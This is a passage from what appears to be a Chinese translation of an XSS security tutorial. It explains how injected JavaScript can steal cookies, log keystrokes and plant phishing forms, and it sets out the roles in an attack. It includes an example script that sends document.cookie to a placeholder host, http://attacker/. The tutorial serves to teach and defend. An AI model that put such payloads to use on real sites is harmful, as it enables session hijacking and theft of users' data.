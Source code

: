 * JavaScript 可以访问用户的敏感信息，例如 cookies。

* JavaScript 可以通过 XMLHTTPRequest 或是其它方式发送 HTTP 请求，将任意内容发送到任意目标。

* JavaScript 可以通过 DOM 操作方法，对当前页面进行任意篡改。


上面的因素结合起来就可以造成严重的安全隐患，如下所述。
### 恶意 JavaScript 有哪些危害

在其它用户浏览器中执行任意 JavaScript 的能力，使得攻击者可以进行下面几种攻击：


* **`盗取 Cookie`** ：攻击者使用`document.cookie`可以获取受害者与网站关联的 cookie，将其发送到自己的服务器，并利用 cookie 提取敏感信息，例如 session IDs。

* **`键盘记录`** ：攻击者使用`addEventListener`可以注册键盘事件监听，然后将用户所有的键盘记录发送到自己的服务器，这里面可能会包含敏感信息，例如：密码或信用卡号。

* **`钓鱼`** ：攻击者使用 DOM 操作可以插入一个伪造的登录表单，将表单的`action`属性设置为自己的服务器地址，然后欺骗用户提交敏感信息。


尽管这几种攻击方式大不相同，但有个关键点是相同的：由于攻击者是在网站提供的页面中注入的代码，所以恶意 JavaScript 会在网站的上下文中执行。这意味着，恶意 JavaScript 与来自网站的其它脚本待遇相同：它可以访问该网站上受害者的数据（例如：cookie）和 URL 地址栏中的主机名。不论出于何种目的，被注入的脚本会被看成网站合法的一部分，网站可以做的事，它同样可以做。

这样的事实凸显了一个关键点：

如果攻击者可以利用你的网站在其它用户浏览器中执行任意 JavaScript，那么你的网站及其用户的安全都受到了威胁。
为了强调这一点，本教程中的一些例子会略去恶意 JavaScript 的详细内容，只是表示为`<script>...</script>`，这表明，不管实际中执行的是什么代码，只要攻击者注入的脚本出现，问题就存在。
## 第二部分：XSS 攻击
### XSS 攻击涉及到的角色

在详细介绍 XSS 攻击如何进行之前，需要定义 XSS 中涉及到的角色。通常，一次 XSS 会涉及三个角色： **`网站`** 、 **`受害者`** 和 **`攻击者`** 。


* **`网站`** 响应 HTML 页面给发起请求的用户。在我们的例子中，网站是 [http://website/][4]。

* **`网站的数据库`** 用来存储一些用户的输入，并输出到网站页面中。



* **`受害者`** 是网站的普通用户，通过浏览器请求页面。

* **`攻击者`** 是网站的恶意用户，准备利用网站的 XSS 漏洞发起攻击

* **`攻击者的服务器`** 是由攻击者控制，唯一的用途是盗取用户敏感信息。在我们的例子中，位于 [http://attacker/][5]


### 一次攻击示例

在这个例子当中，我们假设攻击者的目标是通过利用网站 XSS 漏洞盗取受害者的 cookie。这可以通过在受害者浏览器中执行如下代码实现：

```html
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```

上面的脚本将浏览器导航到新的页面，并触发一次 HTTP 请求到攻击者的服务器。URL 将受害者的 cookie 作为查询参数，当请求到达攻击者服务器时，攻击者就可以提取 cookie。一旦攻击者拿到了 cookie，他就可以冒充受害者，进而发起更深入的攻击。


[3]: http://excess-xss.com/
[4]: http://website/
[5]: http://attacker/
[6]: http://php.net/manual/en/security.magicquotes.php
[7]: /#dom-based-xss-invisible-to-server
[8]: #
[9]: http://attacker/
[10]: http://zicai.github.io/
[0]: ../img/1460000006904330.png
[1]: ../img/1460000006904331.png
[2]: ../img/1460000006904332.png